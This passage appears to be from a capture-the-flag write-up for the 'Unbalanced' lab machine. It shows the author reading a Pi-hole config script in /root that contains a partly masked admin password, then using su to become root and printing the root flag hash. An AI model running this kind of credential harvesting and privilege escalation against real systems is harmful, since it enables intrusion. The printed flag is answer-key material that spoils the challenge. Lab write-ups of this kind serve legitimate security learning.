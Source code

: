 and we can read `/root`? oh shit!
it contains the files `ph_install.sh` and `pihole_config.sh`

```sh
$ cd /root
$ ls
ph_install.sh
pihole_config.sh
$ cat pihole_config.sh |more
#!/bin/bash                                                                                         

# Add domains to whitelist                                                                          
/usr/local/bin/pihole -w unbalanced.htb                                                             
/usr/local/bin/pihole -w rebalanced.htb                                                             

# Set temperature unit to Celsius                                                                   
/usr/local/bin/pihole -a -c                                                                         

# Add local host record
/usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

# Set privacy level
/usr/local/bin/pihole -a -l 4

# Set web admin interface password
/usr/local/bin/pihole -a -p 'b******************!'

# Set admin email
/usr/local/bin/pihole -a email admin@unbalanced.htb
```
the config script inside `/root` contains the admin user creds and email

now we can `su` to root from the SSH connection to bryan?!

```sh
> su root
root@unbalanced:~# id
uid=0(root) gid=0(root) groups=0(root)
root@unbalanced:~# ls
root.txt
root@unbalanced:~# cat root.txt
ddf0e9d13394b9866e7b125a30b1d0d7
```
